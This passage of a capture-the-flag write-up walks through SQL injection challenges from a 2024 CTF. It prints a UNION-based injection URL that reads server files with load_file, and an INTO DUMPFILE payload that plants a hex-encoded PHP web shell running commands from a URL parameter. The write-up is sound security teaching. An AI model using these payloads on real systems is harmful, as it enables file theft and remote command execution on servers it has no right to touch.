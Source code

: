 ![[sqli2_collumns.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/sqli2_collumns.png)

As we can see from our `UNION based SQLi`, we know that there are 4 rows in the query. We can now use this to read file like in the `LFI 2` challenge:

`http://ctf.insa-cvl.fr:1003/post.php?id=-1%20UNION%20SELECT%20NULL,to_base64(load_file(%22/var/www/html/index.php%22)),NULL,NULL%20--%20-`

This payload gives us a `base64` string of the content of `index.php` source code. We can decode it and we get:

![[sqli2_index.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/sqli2_index.png)

There is no flag here. But we notice a file called `db_config.php`. Lets check this file:

![[sqli2_flag.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/sqli2_flag.png)

And voilà... We get the username and password for the database and the flag.

# SQLI 3

![[sqli3_sujet.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/sqli3_sujet.png)

Now this challenge is a bit harder than the previous one because we need to `upload` a shell to the machine. It can be a reverse or web shell, it doesn't matter. As we can see, when we enter a string we get the exact syntax of the `SQL` query:  

![[sqli3_vuln.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/CTF_INSA_2024/photos/sqli3_vuln.png)

We will use the following payload to write into the `css` folder (the only one where we have rights) in the `bipbip.php` file.

`' union select NULL, 0x3c3f7068700a20202020696628697373657428245f4745545b27636d64275d29202626204d443528245f4745545b2770617373275d29203d3d2022636136333537343336306235303061626133336333356163393334333535663122290a202020207b0a202020202020202073797374656d28245f4745545b27636d64275d293b0a202020207d0a3f3e0a into dumpfile '/var/www/html/css/bipbip.php' #`

The content of the hexadecimal string it the following:
```
<?php
    if(isset($_GET['cmd']) && MD5($_GET['pass']) == "ca63574360b500aba33c35ac934355f1")
    {
        system($_GET['cmd']);
    }
?>
```

> Note the use of the hex string instead of putting the plain `PHP` code. This is because sometimes you will get errors because some characters can be removed for exemple.
{: .prompt-info}

> Note the use of a password. This is a good practice because you don't want other teams to be able to use you shell and in a more realist environment you don't want hackers to be able to use the tools that you are using in your pentest to exploit the company you are assessing.
{: .prompt-tip}
